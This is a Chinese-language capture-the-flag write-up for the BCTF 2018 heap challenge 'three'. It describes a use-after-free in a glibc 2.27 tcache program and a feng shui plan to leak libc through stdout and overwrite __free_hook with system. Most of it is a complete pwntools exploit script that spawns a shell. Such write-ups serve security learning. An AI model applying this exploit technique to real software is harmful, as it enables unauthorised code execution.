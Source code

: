 ```yaml
---
title: 'BCTF2018:three'
date: 2018-12-05 16:26:08
tags: pwn fengshui
layout: default
---
```

fengshui思路很重要...
<!--more-->
# strat
[附件][1]
简洁的一道题..主要考利用...咸鱼的我调了一个晚上加上办个下午没调出来
(后来反证自己走进了死胡同..)
最后改变风水思路...

# Analysis
* 主要功能有add,free,edit
* 限制是最多3个chunk可以被执行操作
* 可以选择清除不清除`array`上的指针
```python
➜  three checksec three 
[*] '/home/n132/Desktop/three/three'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```
用的libc是2.27有tcache
漏洞点是uaf
# 利用
#也不太好讲..主要自己调一遍坑都跳一遍就差不多有点思路了

* 利用uaf控制tcache改写`stdout`#具体为啥在babytecache那篇博客中写过
* 继而改写free_hook为system
* free /bin/sh

fengshui:
```
* 一开始我傻逼的地尝试了控制0x70结尾的地方...做了半天做不出来
* 因为在改写完`stdout`后将会失去一个可以操作的指针...free不掉
* 两个指针要实现tcache atk 就要满足两者存在over lap 才可以改掉size
* 显然0x70不如0x50来的灵活...当时没用0x50是因为0x50的那个指针也是不能free的..
```

* 利用uaf控制`0x50`结尾的地址（目的是方便改size）
* 改`0x60`的size为`0x91`
* free 满tcache 获得一个`unsortedbin`
* `0x50`的tcache改到`0x91`上
* `partial write`指向`stdout`
* 改`stdout`去泄露libc
* free 0x60通过0x50改size和fd指针到`__free_hook`为`system`
* edit 2为`/bin/sh`
* free 2



# exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("choice:",str(c))
def add(c="\n"):
	cmd(1)
	p.sendafter("content:",c)
def edit(idx,data):
	cmd(2)
	p.sendlineafter("idx:",str(idx))
	p.sendafter("content:",data)
def free(idx,mode=0):
	cmd(3)
	p.sendlineafter("idx:",str(idx))
	if (mode==0):
		p.sendlineafter("(y/n):",'n')
	else:
		p.sendlineafter("(y/n):",'y')


p=process("./three",env={'LD_PRELOAD':'./libc.so.6'})
libc=ELF("./libc.so.6")
context.log_level='debug'
#init
for x in range(3):
	add(p64(0x21)*8);
free(2,1)
free(1,1)
free(0,1)
#
add()
add()
free(1,1)
free(0)
edit(0,'\x50')
add()

add(p64(0)+p64(0x91))

free(1,1)

for x in range(6):
	free(0)
edit(2,p64(0)+p64(0x51))
free(0)
edit(2,p64(0)+p64(0x91))
free(0,1)

edit(2,p64(0)+p64(0x51)+"\x60\x07\xdd")
add()
add(p64(0xfbad1800)+p64(0)*3+'\x00')

p.read(8)
base=u64(p.read(8))-(0x7ffff7dd18b0-0x00007ffff79e4000)
log.warning(hex(base))
libc.address=base
free(0,1)
edit(2,p64(0)+p64(0x41)+p64(libc.symbols['__free_hook']))
add()
free(0,1)
add(p64(libc.symbols['system']))
edit(2,"/bin/sh\x00")
cmd(3)
p.sendlineafter("idx:",'2')
p.sendline("clear")
p.interactive("nier>>>")
```


[1]:https://github.com/n132/Watermalon/tree/master/Bctf_2018/three